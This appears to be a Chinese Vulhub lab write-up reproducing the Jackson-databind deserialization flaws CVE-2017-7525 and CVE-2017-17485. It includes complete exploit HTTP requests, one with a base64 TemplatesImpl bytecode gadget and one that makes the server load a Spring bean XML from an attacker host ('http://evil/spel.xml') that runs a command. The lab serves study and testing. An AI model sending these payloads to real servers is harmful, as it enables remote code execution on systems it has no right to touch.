




# Jackson-databind 反序列化漏洞 CVE-2017-7525 / CVE-2017-17485

## 漏洞描述

Jackson-databind 支持 [Polymorphic Deserialization](https://github.com/FasterXML/jackson-docs/wiki/JacksonPolymorphicDeserialization) 特性（默认情况下不开启），当 json 字符串转换的 Target class 中有 polymorph fields，即字段类型为接口、抽象类或 Object 类型时，攻击者可以通过在 json 字符串中指定变量的具体类型 (子类或接口实现类)，来实现实例化指定的类，借助某些特殊的 class，如 `TemplatesImpl`，可以实现任意代码执行。

所以，本漏洞利用条件如下：

- 开启 JacksonPolymorphicDeserialization，即调用以下任意方法

  ```java
  objectMapper.enableDefaultTyping(); // default to using DefaultTyping.OBJECT_AND_NON_CONCRETE
  objectMapper.enableDefaultTyping(ObjectMapper.DefaultTyping.NON_FINAL);
  ```

- Target class 需要有无参 constructor
- Target class 中需要需要有字段类型为 Interface、abstract class、Object，并且使用的 Gadget 需要为其子类 / 实现接口

## 环境搭建

Vulhub 搭建环境：

```shell
docker-compose up -d
```

环境启动后，Web 运行在 `http://your-ip:8080/`。

## 漏洞复现

### CVE-2017-7525

`Jackson-databind` 在设置 Target class 成员变量参数值时，若没有对应的 getter 方法，则会使用 `SetterlessProperty` 调用 getter 方法，获取变量，然后设置变量值。当调用 `getOutputProperties()` 方法时，会初始化 `transletBytecodes` 包含字节码的类，导致命令执行，具体可参考 [java-deserialization-jdk7u21-gadget-note](https://b1ngz.github.io/java-deserialization-jdk7u21-gadget-note/) 中关于 `TemplatesImpl` 的说明。

使用 JDK7u21 的 `com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl` 作为 Gadget，发送如下请求，将会执行 `touch /tmp/prove1.txt`：

```
POST /exploit HTTP/1.1
Host: your-vps-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 1298

{
  "param": [
    "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl",
    {
      "transletBytecodes": [
  "yv66vgAAADMAKAoABAAUCQADABUHABYHABcBAAVwYXJhbQEAEkxqYXZhL2xhbmcvT2JqZWN0OwEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR0aGlzAQAcTGNvbS9iMW5nei9zZWMvbW9kZWwvVGFyZ2V0OwEACGdldFBhcmFtAQAUKClMamF2YS9sYW5nL09iamVjdDsBAAhzZXRQYXJhbQEAFShMamF2YS9sYW5nL09iamVjdDspVgEAClNvdXJjZUZpbGUBAAtUYXJnZXQuamF2YQwABwAIDAAFAAYBABpjb20vYjFuZ3ovc2VjL21vZGVsL1RhcmdldAEAEGphdmEvbGFuZy9PYmplY3QBAAg8Y2xpbml0PgEAEWphdmEvbGFuZy9SdW50aW1lBwAZAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwwAGwAcCgAaAB0BABV0b3VjaCAvdG1wL3Byb3ZlMS50eHQIAB8BAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7DAAhACIKABoAIwEAQGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ydW50aW1lL0Fic3RyYWN0VHJhbnNsZXQHACUKACYAFAAhAAMAJgAAAAEAAgAFAAYAAAAEAAEABwAIAAEACQAAAC8AAQABAAAABSq3ACexAAAAAgAKAAAABgABAAAABgALAAAADAABAAAABQAMAA0AAAABAA4ADwABAAkAAAAvAAEAAQAAAAUqtAACsAAAAAIACgAAAAYAAQAAAAoACwAAAAwAAQAAAAUADAANAAAAAQAQABEAAQAJAAAAPgACAAIAAAAGKiu1AAKxAAAAAgAKAAAACgACAAAADgAFAA8ACwAAABYAAgAAAAYADAANAAAAAAAGAAUABgABAAgAGAAIAAEACQAAABYAAgAAAAAACrgAHhIgtgAkV7EAAAAAAAEAEgAAAAIAEw=="
      ],
      "transletName": "a.b",
      "outputProperties": {}
    }
  ]
}
```





这个 POC 只能运行在目标为 JDK7u21 以下的环境中，其他情况请更换 Gadget。

### CVE-2017-17485

CVE-2017-7525 [黑名单修复](https://github.com/FasterXML/jackson-databind/commit/60d459cedcf079c6106ae7da2ac562bc32dcabe1) 绕过，利用了 `org.springframework.context.support.FileSystemXmlApplicationContext`。

利用该漏洞，我们需要创建一个 bean 文件，放置在任意服务器上，如 `http://evil/spel.xml`，内容如下：

```
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans
     http://www.springframework.org/schema/beans/spring-beans.xsd
">
    <bean id="pb" class="java.lang.ProcessBuilder">
        <constructor-arg>
            <array>
                <value>touch</value>
                <value>/tmp/prove2.txt</value>
            </array>
        </constructor-arg>
        <property name="any" value="#{ pb.start() }"/>
    </bean>
</beans>
```

然后，发送如下数据包，使 Jackson 加载 bean，触发漏洞：

```
POST /exploit HTTP/1.1
Host: your-vps-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 134

{
  "param": [
    "org.springframework.context.support.FileSystemXmlApplicationContext",
    "http://your-vps-ip/spel.xml"
  ]
}
```



成功执行 `touch /tmp/prove2.txt`：


